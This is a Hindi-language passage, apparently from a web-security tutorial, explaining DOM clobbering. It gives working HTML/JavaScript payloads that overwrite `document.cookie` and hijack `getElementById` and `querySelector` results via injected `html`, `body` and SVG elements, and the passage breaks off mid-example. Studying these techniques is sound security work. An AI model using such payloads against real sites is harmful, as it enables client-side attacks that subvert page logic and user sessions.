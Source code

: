 इस तकनीक का उपयोग करके आप सामान्य रूप से उपयोग होने वाले **मान जैसे `document.cookie`, `document.body`, `document.children`**, और डॉक्यूमेंट इंटरफ़ेस में तरीकों को ओवरराइट कर सकते हैं जैसे `document.querySelector`।
```javascript
document.write("<img name=cookie />")

document.cookie
<img name="cookie">

typeof(document.cookie)
'object'

//Something more sanitize friendly than a img tag
document.write("<form name=cookie><input id=toString></form>")

document.cookie
HTMLCollection(2) [img, form, cookie: img]

typeof(document.cookie)
'object
```
## तत्व को चटकाने के बाद लिखना

आप एक **`document.getElementById()`** और **`document.querySelector()`** कॉल के परिणाम को चटका सकते हैं अगर **आप एक `<html>` या `<body>` टैग इंजेक्ट करते हैं जिसमें समान id विशेषता हो**। यहां एक उदाहरण है:
```html
<div style=display:none id=cdnDomain class=x>test</div>
<p>
<html id="cdnDomain" class=x>clobbered</html>
<script>
alert(document.getElementById('cdnDomain').innerText);//clobbbered
alert(document.querySelector('.x').innerText);//clobbbered
</script>
```
यहां और भी दिलचस्प है कि आप `innerText` से तत्वों को **छिपा सकते हैं**, इसलिए यदि आप एक HTML/body टैग इंजेक्ट करते हैं तो आप इसे `innerText` से छिपाने के लिए स्टाइल का उपयोग कर सकते हैं ताकि अन्य पाठ आपके हमले में बाधा न डालें:
```html
<div style=display:none id=cdnDomain>test</div>
<p>existing text</p>
<html id="cdnDomain">clobbered</html>
<style>
p{display:none;}
</style>
<script>
alert(document.getElementById('cdnDomain').innerText);//clobbbered
</script>
```
हमने SVG भी देखा है और वहां `<body>` टैग का उपयोग करना संभव है:
```html
<div style=display:none id=cdnDomain>example.com</div>
<svg><body id=cdnDomain>clobbered</body></svg>
<script>
alert(document.getElementById('cdnDomain').innerText)//clobbered
</script>
```
आपको Chrome और Firefox दोनों में SVG में HTML टैग का उपयोग करने के लिए `<foreignobject>` टैग की आवश्यकता होती है:
```html
<div style=display:none id=cdnDomain>example.com</div>
<svg>
<foreignobject>
<html id=cdnDomain>clobbered</html>
</foreignobject>
```